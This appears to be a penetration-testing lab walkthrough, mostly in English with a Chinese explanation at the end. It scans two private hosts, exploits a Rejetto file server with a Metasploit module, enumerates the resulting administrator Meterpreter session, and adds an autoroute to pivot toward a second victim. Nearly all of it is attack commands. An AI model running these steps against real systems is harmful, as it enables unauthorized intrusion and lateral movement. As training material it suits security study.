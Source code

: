 ```
ping 10.0.29.148
ping 10.0.29.96
```
 
```
nmap -sV -p 80 10.0.29.148
```

```
searchsploit rejetto
```

```
msfconsole
search rejetto
use 0
set RHOSTS 10.0.29.148
show options
exploit
```

We can perform some local enumeration.

```
meterpreter > sysinfo
meterpreter > getuid
```

We currently have access to victim 1 as Administrator user, which means that we have an elevated session and that means that we do not need to elevate our privileges.  

```
meterpreter > ipconfig
```

```
IPv4 Address : 10.0.29.148
IPv4 Netmask : 255.255.240.0
```

We've identified that it is only part of one network and this network has other devices on it. How do we scan for these other systems on that network. We already know the target IP address of victim machine 2, but before we do that we need to add a route. The route will allow us to access victim machine 2 from victim machine 1.

How do we add this route. We want to add the route for this particular subnet. `-s`: we specify the subnet.

```
meterpreter > run autoroute -s 10.0.29.0/20
```

该命令是在Meterpreter会话中执行的命令，Meterpreter是Metasploit框架的一部分，用于渗透测试和网络安全评估。这个特定的命令是用于设置路由规则，以便通过Meterpreter会话中的已入侵系统进行网络流量转发。

命令的具体解释如下：
- `meterpreter >` 是命令提示符，表示您正在与Meterpreter会话进行交互。
- `run autoroute` 是Meterpreter的一个模块，用于管理路由设置。
- `-s 10.0.29.0/20` 是一个选项，用于指定要添加到路由表中的子网。在这种情况下，它指定了一个CIDR表示法的子网地址，即10.0.29.0/20。CIDR（Classless Inter-Domain Routing）表示法用于指定IP地址范围。
